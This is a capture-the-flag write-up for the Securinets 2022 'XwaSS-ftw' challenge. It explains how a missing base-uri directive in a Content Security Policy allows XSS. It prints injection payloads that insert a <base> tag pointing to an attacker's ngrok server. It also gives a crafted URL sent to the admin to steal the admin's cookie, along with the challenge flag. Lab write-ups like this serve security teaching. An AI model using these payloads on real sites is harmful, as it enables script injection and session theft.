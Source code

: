 # Securinets-CTF-Finals-2022  
## XwaSS-ftw Writeup


This challenge was about achieving an XSS by bypassing the CSP

Challenge :

![image](https://user-images.githubusercontent.com/58823465/167916910-78285058-5944-4b8d-8de8-55650fc0cca5.png)


We can find the CSP in the source code 

``` 
<meta http-equiv="Content-Security-Policy" content="script-src 'nonce-uupQ2er9ZEFzu3';connect-src 'self';style-src 'self';font-src 'self';object-src 'none'">
```
First i checked if the "nonce" is a fixed string so we can abuse it but it seems to be dynamic so i ditched that idea quickly and used the CSP validator to get more of an idea about this CSP

![image](https://user-images.githubusercontent.com/58823465/167917258-82fea6ed-7a13-4b8c-838d-e240c89e3966.png)

We can see the the "base-uri missing" meaning we can use `` <base> `` tags and use a technique called Dangling Markup injection.

So to abuse this we can try and redirect to a url just to test if the base tags are working

We can use this payloads 

```
'><base href="https://example.com">
``` 

![image](https://user-images.githubusercontent.com/58823465/167918956-ef963dd8-37d1-4fcd-87af-441eee9ce375.png)

and we can notice in the console this particular error 

![image](https://user-images.githubusercontent.com/58823465/167918067-d5b8dc28-87d5-4709-90e0-dd8c7af14469.png)

This means it's trying to fetch the relative path `` /assets/js/bootstrap.js ``, so all we need to do is spin up our own server and add the same relative path and inject some xss in the file "bootstrap.js"

So this is the setup for the server 

![image](https://user-images.githubusercontent.com/58823465/167920326-329be168-ac77-4f9f-aca2-84f29e83bb7a.png)

**note: Make sure to start your ngrok server in the same directory for the /assets/js/bootstrap.js**

so using the payload :

``` '><base href="http://7923-41-225-41-253.ngrok.io"> ```


![image](https://user-images.githubusercontent.com/58823465/167920555-2f43deff-dbb3-4247-a1ba-d16c38d5f14d.png)


And yes !! we get an XSS !!

Now all we have to do is add a document.cookie attribut and steal it with out custom ngrok server

![image](https://user-images.githubusercontent.com/58823465/167920820-9cd44941-e9f6-4c1d-b9e9-ee23bd8cd03b.png)


and then we send this url to the admin to steal his cookie !

```http://challenge_link/index.php?src='><base href="http://7923-41-225-41-253.ngrok.io">```

![image](https://user-images.githubusercontent.com/58823465/167921246-78c3a39f-7b38-456c-9890-a611819ca7de.png)



And there you go !! we found our flag :D


``` Flag : Securinets{CSP_W1Th_BaSE_Is_GooD_Nah?} ```



